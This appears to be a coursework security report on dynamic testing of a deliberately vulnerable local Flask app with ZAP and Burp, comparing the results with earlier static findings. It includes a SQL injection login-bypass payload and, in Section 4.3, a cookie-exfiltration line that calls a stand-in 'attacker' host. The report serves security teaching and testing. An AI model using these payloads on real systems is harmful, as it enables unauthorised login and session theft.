# Task D: Dynamic Analysis and Exploit Development

**Application under test.** The deliberately vulnerable Flask marketplace at [`vulnerable-web-app/app.py`](vulnerable-web-app/app.py), run locally on `http://127.0.0.1:5000`.
**Tools.** OWASP ZAP for automated dynamic application security testing (DAST), and Burp Suite Community Edition for manual interception and exploit replay.
**Outputs.** ZAP HTML scan report at [`scan-results/ZAP_by_checkmarx_scanning_report.html`](scan-results/ZAP_by_checkmarx_scanning_report.html) and annotated screenshots in [`evidence/`](evidence/).
**Cross-reference.** Task C SAST register (Section 4.3) and SAST blind spots (Section 6.4).

---

## 1. Scope and methodology

The same Flask application that Task C analysed statically is exercised here at runtime. Two stages are run sequentially against the running process:

1. **Automated breadth (ZAP).** Traditional spider followed by an active scan against the unauthenticated attack surface.
2. **Manual depth (Burp).** Targeted interception and request replay against routes the spider could not reach because they sit behind authentication.

Three vulnerability classes from Task C are exercised dynamically: SQL injection (register row 1), cross-site scripting (rows 2 and 3), and the cookie missing the `HttpOnly` flag (row 6, custom Semgrep rule). The XSS plus `HttpOnly` chain is the path that converts two mid-severity static findings into a full session takeover.

Three classes that Task C identified are out of scope for the dynamic run and are recorded only as cross-references in Section 5: cross-site request forgery on `/delete`, the missing ownership check on the same route, and plaintext password storage in `/register`. Section 6.4 explains why each is achievable but was not performed.

---

## 2. Tooling and configuration

OWASP ZAP and Burp Suite Community Edition both default to the local proxy `127.0.0.1:8080`. They were run one at a time to avoid the port conflict: ZAP for the breadth scan, then Burp for the manual exploits. The Flask application was started with `python init_db.py && python app.py`, listening on port 5000.

ZAP's traditional spider was used because the application has no JavaScript-driven navigation. The active scanner ran with the default policy. No authentication context was configured for ZAP. That choice is the limitation Section 6.1 returns to.

---

## 3. ZAP automated scan

### 3.1 Spider coverage

The traditional spider discovered 12 URLs (Figure 1). Coverage stopped at the unauthenticated boundary: `/`, `/about`, `/login`, `/register`, two product detail pages, the stylesheet, the spider's standard probes (`robots.txt`, `sitemap.xml`), and the POST endpoints for `/login` and `/register`. The authenticated routes that contain the highest-impact sinks were not crawled because the spider has no session: `/add` (where product names are stored), `/product/<id>` (review submission), `/edit/<id>`, `/delete/<id>`, and `/admin`.

**Figure 1.** ZAP traditional spider results. Twelve URLs found across the unauthenticated surface.



### 3.2 Alert summary

The active scan produced 12 alert categories: 1 High, 3 Medium, 4 Low, and 4 Informational (Figures 2 and 3).

| Risk          | Categories | Notable items                                                                                                                |
| ------------- | ---------- | ---------------------------------------------------------------------------------------------------------------------------- |
| High          | 1          | SQL Injection (4 instances on `/login` and `/register`)                                                                      |
| Medium        | 3          | Absence of Anti-CSRF Tokens, Content Security Policy header not set, Missing anti-clickjacking header                        |
| Low           | 4          | Cookie No HttpOnly Flag, Cookie without SameSite Attribute, Server leaks version information, X-Content-Type-Options missing |
| Informational | 4          | Authentication request identified, Cookie poisoning, Session management response identified, User agent fuzzer               |

**Figure 2.** ZAP Alerts panel after the active scan completed.



**Figure 3.** ZAP HTML report alert summary.



### 3.3 Representative alert details

The High-risk finding is the SQL injection cluster at `/login` and `/register` (Figure 4). The alert detail records CWE-89, parameter `username`, attack string `'`, and evidence `HTTP/1.1 500 INTERNAL SERVER ERROR`. ZAP triggered an unhandled SQL parser error by injecting a single quote into the username field, which is the canonical signal that the parameter reaches the database without parameterisation. Section 4.1 turns the same parameter into a working authentication bypass.

**Figure 4.** ZAP SQL Injection alert detail at `POST /login`. CWE-89 confirmed by a 500 response to a single-quote payload.



The Medium-risk Anti-CSRF Tokens alert (Figure 5) covers `/login` and `/register`. ZAP's passive scanner observed `<form method="post">` without a token field and reported CWE-352. This is a passive observation rather than an exploit. Task C Section 6.4 records the matching SAST blind spot: pattern-matching scanners cannot tell a state-changing endpoint from any other handler, so the same flaw is invisible to Bandit and Semgrep. DAST surfaces it from the response side.

**Figure 5.** ZAP Absence of Anti-CSRF Tokens alert detail (CWE-352).



ZAP did not raise any XSS alert. The product-name and review-comment sinks that Semgrep flagged in Task C (rows 2 and 3 of the register) live behind authenticated routes that the unauthenticated spider never reached. Section 4.2 shows the underlying defect is exploitable; Section 6.1 explains why the scanner missed it.

---

## 4. Manual exploitation

### 4.1 SQL injection: login bypass

The `/login` route concatenates the submitted username and password into an f-string SQL query at `app.py` line 140. Submitting `' OR '1'='1' --` as the username terminates the string literal, makes the `WHERE` clause tautological, and comments out the password check.

Steps:

1. With Burp intercept on, the browser submitted `username=' OR '1'='1' --` and an arbitrary password (Figure 6).
2. Burp captured the POST request, showing the URL-encoded payload in the body (Figure 7).
3. The captured request was sent to Repeater. The server returned `302 Found` with `Set-Cookie: username=admin` and a `Location: /` header (Figure 8). The first row of the `users` table is the seeded `admin` account, so the tautological match returned it.
4. Forwarding the response to the browser followed the redirect to the homepage, logged in as `admin` with the Admin Panel link visible (Figure 9).

**Figure 6.** Browser submitting the SQL injection payload to `/login` while Burp intercept is active.



**Figure 7.** Burp Proxy intercept tab. The URL-encoded payload `' OR '1'='1' --` is in the POST body.



**Figure 8.** Burp Repeater request and response. The 302 redirect sets `username=admin` as the authentication cookie.



**Figure 9.** Browser logged in as `admin` after the bypass.



The exploit confirms what Task C row 1 predicted from the static finding: every f-string SQL query in `app.py` is exploitable through the same pattern. The `users` table contained a hashed `password` column in this run; the bypass succeeded without ever evaluating the password, which is the security failure.

### 4.2 Cross-site scripting: stored payload in product name

The `/add` route stores the submitted product name verbatim. The homepage interpolates the name into HTML through an f-string with no escaping (`app.py` line 62). A script tag entered as a product name is rendered as a script element on every visitor's homepage.

Steps:

1. Logged in as a seller (the `admin` session from Section 4.1 was reused).
2. Submitted a product with the name ``, price `1.0`, description `Test` (Figure 10).
3. Burp's HTTP history captured the POST to `/add`. The Inspector pane shows the payload in the request body parameters (Figure 11).
4. Reloading the homepage executed the injected script (Figure 12).

**Figure 10.** Add Product form with the XSS payload entered as the product name.



**Figure 11.** Burp HTTP history view of the POST to `/add`. The script payload is visible in the request body.



**Figure 12.** Homepage rendered after the product was saved. The alert dialog "Testing XSS" fires from the persisted product name.



The payload is persisted, not merely reflected: it lives in the `products.name` column and executes for every subsequent visitor to `/`. Task C's Semgrep scan flagged this exact route through `directly-returned-format-string` and `raw-html-concat.raw-html-format` (register rows 2 and 3). DAST proves the static finding is reachable at runtime and that the blast radius is every visitor, not only the submitter.

### 4.3 Attack chain: stored XSS plus missing HttpOnly equals session theft

Task C row 6 records the custom Semgrep rule that fired on `set_cookie('username', user['username'])` at `app.py` line 146. The cookie has no `HttpOnly` attribute, so client-side JavaScript can read it through `document.cookie`. Combined with the stored XSS sink in Section 4.2, any logged-in user's authentication cookie is exfiltrable.

Steps:

1. Logged in as `testuser`, submitted a product whose name was ``.
2. Reloaded the homepage as `testuser`. The alert displayed `username=testuser`, confirming `document.cookie` is reachable from JavaScript even though the cookie is the authentication token (Figure 13).
3. Logged out, logged back in as `admin`, navigated to the same view. The alert displayed `username=admin`. JavaScript triggered by another user's stored payload had read the admin's cookie (Figure 14).

**Figure 13.** Stored XSS payload reads `testuser`'s own cookie through `document.cookie`.



**Figure 14.** The same payload, viewed by `admin`, reads the admin cookie.



In a real attack, the `alert(...)` call would be `fetch('https://attacker/' + document.cookie)`, sending the cookie to an attacker-controlled host. The application's cookie carries the entire authentication state, so receiving it is equivalent to receiving the victim's session. Two findings that Task C scored individually as Warning combine here into a full account takeover.

---

## 5. SAST and DAST cross-reference

The table below records, for each vulnerability class in `app.py`, what Task C's SAST scanners detected and what this dynamic test confirmed.

| Vulnerability class                | Task C SAST                                                 | This task: DAST                                                                 | Outcome                                                                     |
| ---------------------------------- | ----------------------------------------------------------- | ------------------------------------------------------------------------------- | --------------------------------------------------------------------------- |
| SQL Injection (CWE-89)             | Detected, row 1 (Bandit B608, Semgrep `tainted-sql-string`) | ZAP raised the High alert (Figure 4); Burp confirmed login bypass (Section 4.1) | Both stages confirm. DAST proves exploitability beyond pattern presence.    |
| Stored / reflected XSS (CWE-79)    | Detected, rows 2 and 3 (Semgrep)                            | Not raised by ZAP (authenticated route); confirmed manually (Section 4.2)       | DAST adds runtime confirmation. ZAP miss is a configuration limitation.     |
| Cookie No HttpOnly Flag (CWE-1004) | Detected, row 6 (Semgrep custom rule)                       | ZAP Low alert; chained to session theft (Section 4.3)                           | DAST proves the consequence Task C only inferred.                           |
| Anti-CSRF tokens (CWE-352)         | Not detected (Task C Section 6.4)                           | ZAP passive Medium alert (Figure 5)                                             | DAST surfaces what SAST cannot pattern-match.                               |
| Authorisation bypass on `/delete`  | Not detected (Task C Section 6.4)                           | Not exercised in this run                                                       | Code-level only. Would require authenticated session-swap testing.          |
